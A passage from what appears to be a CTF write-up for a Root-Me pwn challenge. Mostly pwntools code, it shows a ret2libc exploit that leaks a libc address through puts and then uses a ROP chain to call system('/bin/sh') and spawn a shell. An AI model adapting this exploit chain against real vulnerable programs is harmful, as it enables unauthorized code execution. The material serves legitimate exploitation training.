 ![6.png](https://github.com/retr0Rocks/retr0rocks.github.io/blob/master/_posts/pwn-root-me-ctf10k/6.PNG?raw=true)

now the program broke , we have a sigsev. clear ret2libc attack.
I am going to go brief on the last exploitation phase since it's a classic attack.
```python
payload = b"A" * 24
payload += rdi
payload += p64(elf.got.puts)
payload += p64(elf.plt.puts)
payload += p64(elf.sym.main)
p.sendline(payload)
p.sendline(b"")
p.recvuntil("> ")
p.recvuntil("> ")
libc_leak = u64(p.recvline().strip(b"\n").ljust(8,b"\x00")) - libc.sym.puts
print(hex(libc_leak))

```
i grabbed ``pop rdi;ret`` gadget from ``ropper`` (ROPgadget works as well).
the offset to overwrite instruction pointer can be obtained using ``gdb``
i used the got entry of puts to leak a libc address.

![7.png](https://github.com/retr0Rocks/retr0rocks.github.io/blob/master/_posts/pwn-root-me-ctf10k/7.PNG?raw=true)

libc leak successfull.

```python
system = libc_leak + libc.sym.system
binsh = libc_leak + next(libc.search(b"/bin/sh\x00"))
print(hex(system))
print(hex(binsh))
p.sendlineafter("login: ",user)
p.sendlineafter("password: ", password)
p.sendline("-1")
payload = b"A" * 24 + rdi + p64(binsh)  + ret + p64(system + 4)
p.sendline(payload)
```
calculating ``system`` and ``/bin/sh`` addresses. then sending it.
NB: i jumped to ``system + 4`` since whren trying to jump in ``system`` the program broke so i had to increment a little bit so i jump inside the function.
